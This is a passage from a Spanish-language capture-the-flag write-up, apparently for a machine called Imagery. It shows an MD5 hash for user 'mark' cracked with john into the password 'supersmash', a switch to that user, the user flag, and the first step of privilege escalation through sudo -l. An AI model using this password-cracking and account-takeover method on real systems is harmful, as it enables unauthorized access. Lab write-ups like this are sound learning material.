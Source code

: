 Veremos que hay un usuario mas llamado `mark` y si leemos el `passwd` veremos que existe un usuario a nivel de sistema llamado `mark`, por lo que vamos a probar a `crackear` la contraseña.

> hash

```
mark:01c3d2e5bdaf6134cec0a367cf53e535
```

```shell
john --format=Raw-MD5 --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
supersmash       (mark)     
1g 0:00:00:00 DONE (2025-10-04 04:12) 50.00g/s 12969Kp/s 12969Kc/s 12969KC/s swilly..sugar*
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado y obtenemos la contraseña de dicho usuario, vamos a probar a escalar al usuario desde la `shell` que tenemos haciendo esto:

```shell
su mark
```

Metemos como contraseña `supersmash`...

```
bash-5.2$ whoami
mark
```

Con esto veremos que seremos dicho usuario, por lo que leeremos la `flag` de usuario.

> user.txt

```
779c8962d92d0453d471ef6328978b56
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```
